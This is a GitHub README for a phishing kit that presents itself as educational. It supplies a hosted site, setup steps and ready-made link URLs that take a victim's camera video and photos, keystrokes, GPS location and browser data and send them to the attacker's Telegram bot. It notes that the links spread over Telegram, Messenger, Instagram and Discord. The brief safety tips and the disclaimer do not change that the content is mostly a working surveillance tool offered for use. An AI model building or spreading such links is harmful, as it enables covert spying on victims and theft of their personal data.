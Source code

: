 ## 🧑‍💻 K4geN1nja

This **semi-open source** project demonstrates how hackers use social engineering to collect a user's device information through a malicious link. Learn how this method works and how to protect yourself.

---

## 🧠 How It Works

Hackers create fake websites and use **social engineering** to manipulate users into granting permissions. Once a user clicks on the malicious link, they are asked to grant various permissions, such as:

- Camera 📷
- Microphone 🎤
- Keyboard ⌨️
- GPS Location 📍

If the user grants these permissions, the hacker can gain access to sensitive data, including camera, microphone, and browser information. However, if the user denies the permissions, the hacker can still secretly collect browser-related data and more.

**📸 Data Reception on public code API**

![public](https://i.postimg.cc/3xp1PkXT/IMG-20250730-155932.jpg)

**📸 Data Reception on private code API**

![private](https://i.postimg.cc/ZnBppQjS/IMG-20250730-155721.jpg)

**🎥 Educational Demo**
> https://youtu.be/8tWrX9j5Nuo

---

## 🛡️ How to Stay Safe

* Avoid clicking on suspicious links.
* Use **Firefox or Brave or Tor Browser** for enhanced security, as it blocks many malicious scripts by default.

**📱 Browser safety comparison**

![safety](https://i.postimg.cc/hjswYpk6/IMG-20250730-163909.jpg)

---

## ⚙️ Build Your Own Site

Create a similar setup by entering your **Telegram Bot Token** and **Chat ID** on the platform below 🔒

> [▶️ Launch Test Site](https://vide0chat.vercel.app/)

---

## 📚 Setup Guide

1. **Get Your Telegram Bot Token** and **Chat ID** by following this tutorial:

> https://youtube.com/shorts/ZvCdiTS-uGw

---

## 🚀 Public & Private Comparison

| Variant            | Use-Case                   |
| -------------------|--------------------------- |
|🌐 Public Code API  | Study, audit, learn        |
|⚡ Private Code API | Controlled red-team drills |

---

## 📋 Quick API

**Front c@m vide0 & info**

```bash
https://vide0chat.vercel.app/video-f.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**Back c@m vide0 & info**

```bash
https://vide0chat.vercel.app/video-b.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**Front c@m ph0t0 & info**

```bash
https://vide0chat.vercel.app/video-f.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**Back c@m ph0t0 & info**

```bash
https://vide0chat.vercel.app/video-f.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**keyb0@rd & l0c@tion**

```bash
https://vide0chat.vercel.app/main.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

⚠️ **Replace** `YOUR_TOKEN` and `YOUR_CHAT_ID` with your actual Telegram Bot Token and Chat ID.

---

## 🚀 API Works on: 
- Telegram  
- Facebook Messenger  
- Instagram  
- Discord  
- Any platform that supports clickable links and embedded previews

---

> **⚠️ Warning:** This project is **educational only**. Do **not** engage in unauthorized access or use for malicious purposes. **Always obtain explicit consent** before performing any securi
ty testing.
